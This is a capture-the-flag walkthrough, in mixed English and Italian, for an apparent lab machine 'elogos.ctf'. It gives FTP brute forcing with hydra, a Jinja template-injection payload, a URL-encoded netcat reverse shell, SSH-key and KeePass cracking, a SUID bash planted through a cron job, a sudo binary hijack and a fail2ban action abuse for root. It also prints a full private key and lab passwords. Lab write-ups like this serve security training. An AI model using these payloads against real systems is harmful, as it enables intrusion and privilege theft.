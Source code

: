 ### **PORT SCANNING**
```bash
nmap -sT -T5 --min-rate=10000 -p- 192.168.86.129
```
![[Pasted image 20231011153211.png]]

### **PATH 1 - FTP**
Go to http://elogos.ctf/about-us and take note of the listed username (email)
![[Pasted image 20231011153524.png]]

After that launch a brute force with hydra on ftp to gain access
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://elogos.ctf
```
==Creds = j.brock:princess==
ls -la and take the private ssh key. Crack it.
```
ssh2john id_rsa > hash
```
![[Pasted image 20231011153933.png]]![[Pasted image 20231011154601.png]]

Log in as j.brock via ssh
### **PATH 2 - WEB**
*Cookie Bypass*
http://elogos.ctf/login
Use inspect to retrieve the cookie and decode it.
![[Pasted image 20231011154838.png]]
Change logged in to true and save it in the browser
*HardCoded Credentials*
Ci sono delle credenziali hardcodate al seguente path
https://elogos.ctf/assets/js/secure_credentials.js
admin:4dmin3vil!!
![[Pasted image 20231012173648.png]]
*Web to www-Data*
![[Pasted image 20231011154905.png]]
Use the "user=" parameter to inject the ssti payload and achieve a RCE
```python
{{request.application.__globals__.__builtins__.__import__('os').popen("id").read()}}
```
Usa la reverse shell url encodata
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.86.130%204444%20%3E%2Ftmp%2Ff
```
![[Pasted image 20231011155050.png]]
Now use the rce to obtain a reverse shell
![[Pasted image 20231012163853.png]]
*www-Data to John*
intera home j.brock leggibile da gruppo web-developer di cui www-Data fa parte
![[Pasted image 20231012164214.png]]
catta id_rsa
``` bash
cat /home/j.brock/.ssh/id_rsa
```

```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
qMfG6JM2YKLsLYHqT9T+dgZJqGc=
-----END OPENSSH PRIVATE KEY-----
```
e craccalo usando ssh2john
```
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
==Password = spaghetti==

Entra su ssh come j.brock
==ricorda chmod 400 su id_rsa==
### **j.brock to m.hack**
Scarica linpeas ed avvialo
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh
vai in /scripts e crea un file random.py
```
![[Pasted image 20231012165416.png]]
Vai in /scripts e crea un file random.py
```python
import os
os.system('cp /bin/bash /scripts/; chmod +s /scripts/bash')
```
![[Pasted image 20231012164950.png]]
Aspetta che runna tramite cronjob ed esegui il bash con suid creato
![[Pasted image 20231012165448.png]]

### **m.hack to r.silva**
Nella home di m.hack c'è un file keepass kdbx.
Usa keepass2john per craccarlo
```
keepass2john mypasswords.kdbx > hash

```
==Password = ihatehackers==

all'interno del keepass c'è la password per l'utente
==Password = JVQe4hUMqvCry4Gz996!n3==

Puoi fare
```bash
su m.hack
```
per stabilizzare la shell. Poi fai
```bash
sudo -l
```
![[Pasted image 20231012170444.png]]
crea il path ed il binario
```bash
mkdir .updates
cd .updates
mkdir tmp
cd tmp
vim update_binary
```
```update_binary
#/bin/bash

/bin/bash -p
```
==dai chmod +x al binario==
ed esegui il sudo come r.silva
```
sudo -u r.silva /home/m.hack/.updates/tmp/update_binary
```
![[Pasted image 20231012170931.png]]

### **r.silva to root**
r.silva appartiene al gruppo fail2ban
![[Pasted image 20231012171109.png]]
andiamo a modificare i config di fail2ban
```bash
cd /etc/fail2ban
vim jail.conf
```
linea 268 per vedere che azione viene eseguita al trigger di fail2ban
![[Pasted image 20231012171431.png]]
linea 554 per attivarlo su vsftp
![[Pasted image 20231012171353.png]]
Ora vai a modificare l'action
```bash
cd action.d
vim log_alert.conf
```
![[Pasted image 20231012171555.png]]
Aspetta il restart tramite cronjob (ogni minuto)
tenta di bruteforzare ftp per triggerare fail2ban
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/CommonAdminBase64.txt -P /usr/share/wordlists/rockyou.txt ftp://192.168.86.129
```
![[Pasted image 20231012172132.png]]
![[Pasted image 20231012172158.png]]
